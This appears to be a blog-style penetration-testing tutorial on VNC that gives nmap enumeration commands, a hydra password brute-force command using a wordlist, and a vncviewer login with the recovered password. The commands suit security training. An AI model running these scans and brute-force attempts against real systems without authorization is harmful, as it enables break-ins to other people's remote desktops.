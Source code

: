 ```yaml
---
title:  VNC Pentesting
date: 2022-06-03 05:49:33 +0800
categories: [Infrastructure Pentesting, VNC]
tags: []  
---
```


# VNC

***Virtual Network Computing (VNC)*** is a graphical desktop-sharing system that uses the Remote Frame Buffer protocol (RFB) to remotely control another computer. It transmits the keyboard and mouse events from one computer to another, relaying the graphical-screen updates back in the other direction, over a network.

# Enumeration

## Scanning With Nmap

We can use nmap to scan vnc as well as to get the version of vnc running on our target system. 

```bash
nmap -sT -sV -p 5901 [target_ip]
```
![vnc](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/vnc1.png)

Above image shows vnc is running on port 5901/tcp on our target. It also reveals the version of vnc running, which was `version 3.8`.

We can also use nmap script to get more information about vnc protocol. 

```bash
nmap -sT --script vnc-info.nse -p 5901 [target_ip]
```

![vnc](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/vnc2.png)

# Bruteforcing Vnc Password

## hydra

Using hydra , we can bruteforce password of vnc, which if successful will allow us to login to our target system.

```bash
hydra -s [vnc_port] -P [/path/to/password/wordlist] [target_ip] vnc
```
![vnc](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/vnc3.png)

In the above image we were able to get a valid password `pass1234`.

# Exploitation

With the valid password in hand, we can login to our target system using `vncviewer`.

```bash
vncviewer [target_ip]:[port]
```
![vnc](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/vnclogin.png)

# References

- [https://en.wikipedia.org/wiki/Virtual_Network_Computing](https://en.wikipedia.org/wiki/Virtual_Network_Computing)
- [https://book.hacktricks.xyz/network-services-pentesting/pentesting-vnc](https://book.hacktricks.xyz/network-services-pentesting/pentesting-vnc)
